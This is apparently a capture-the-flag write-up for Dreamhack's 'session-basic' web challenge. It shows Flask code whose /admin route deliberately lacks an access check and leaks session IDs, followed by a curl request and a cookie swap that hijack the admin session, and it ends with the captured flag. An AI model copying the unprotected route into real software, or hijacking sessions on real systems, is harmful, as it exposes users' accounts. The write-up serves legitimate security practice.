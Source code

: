 ```yaml
---
title: session-basic
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, Authentication vulnerabilities]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/409/](https://dreamhack.io/wargame/challenges/409/)

## Description
>
> It is a simple login service that manages authentication status with cookies and sessions.
> If you successfully log in with the admin account, you can get the flag.
>
> The flag type is DH{...}.

### Attached

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}


# this is our session storage
session_storage = {
}


@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        # get username from session_storage
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            # you cannot know admin's pw
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(32).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp
        return '<script>alert("wrong password");history.go(-1);</script>'


@app.route('/admin')
def admin():
    # developer's note: review below commented code and uncomment it (TODO)

    #session_id = request.cookies.get('sessionid', None)
    #username = session_storage[session_id]
    #if username != 'admin':
    #    return render_template('index.html')

    return session_storage


if __name__ == '__main__':
    import os
    # create admin sessionid and save it to our storage
    # and also you cannot reveal admin's sesseionid by brute forcing!!! haha
    session_storage[os.urandom(32).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)

```

## Analyzation

The server did not block users when accessing admin page

```python
@app.route('/admin')
def admin():
    # developer's note: review below commented code and uncomment it (TODO)

    #session_id = request.cookies.get('sessionid', None)
    #username = session_storage[session_id]
    #if username != 'admin':
    #    return render_template('index.html')

    return session_storage
```

So just get in that page.

## Solution

```sh
curl http://host3.dreamhack.games:21057/admin
```

```javascript
{"008a1e27e3bb2fc6d0deb79b5c46044abc4d497347ba0eb658c195420fe742da":"admin",
"24fd326c4b70adad5b9bb337f3435e1d574171601fbdf42238136dd3f7515fa2":"guest",
"8c78158912071023499de32ae33de73a1dcbe253fb17a49506e84d5f944d929a":"guest"}
```

Now we just login with the given account in the server 
```
'guest': 'guest'
```
Then change the cookie to admin's cookie.

The flag is
```
DH{8f3d86d1134c26fedf7c4c3ecd563aae3da98d5c}
```